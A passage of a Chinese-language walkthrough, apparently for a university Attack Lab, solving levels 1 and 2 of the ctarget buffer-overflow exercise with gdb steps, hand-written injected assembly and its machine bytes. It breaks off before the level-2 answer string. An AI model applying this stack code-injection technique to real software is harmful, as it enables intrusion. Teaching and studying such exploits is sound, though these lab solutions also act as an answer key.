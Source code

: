 执行

```cpp
./hex2raw < c1.txt | ./ctarget -q
	Cookie: 0x59b997fa
	Type string:Touch1!: You called touch1()
	Valid solution for level 1 with target ctarget
```
OK，pass。

### Part I level 2
这里我们需要调用的函数是touch2。

```cpp
void touch2(unsigned val){
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie){
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    }else{
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

可以看出，touch2和touch1的区别是，touch2多了一个参数。这里，我们要得到touch2的函数地址(cookie值可以从上面的执行结果得到)。因为我们需要传递参数，并且栈上是可以执行代码的，所以我们可以利用40个字节，构造一段代码，然后返回的时候，返回到输入缓冲区的地方，也就是我们插入代码的地方。所以，我们要得到getbuf函数中buf的其实地址。执行以下操作。

```cpp
gdb ./ctarget
disas touch2
   0x00000000004017ec <+0>:     sub    $0x8,%rsp //touch2地址
break getbuf
run -q
stepi //执行char buf[BUFFER_SZIE];
print /x $rsp 
	$1 = 0x5561dc78 //buf起始地址
```
我们还需要编写汇编代码c2.s。汇编代码如下：

```cpp
mov  $0x59b997fa,%edi
pushq $0x4017ec
ret
```

这里之所以没有用jump，是因为实验手册上注明了主要不要用jump。然后，行以下操作得到二进制码。

```cpp
gcc -c c2.s
objdump -d c2.o > c2.d
cat c2.d
	0:   bf fa 97 b9 59          mov    $0x59b997fa,%edi
	5:   68 ec 17 40 00          pushq  $0x4017ec
	a:   c3                      retq   
```
所以，最后的答案为
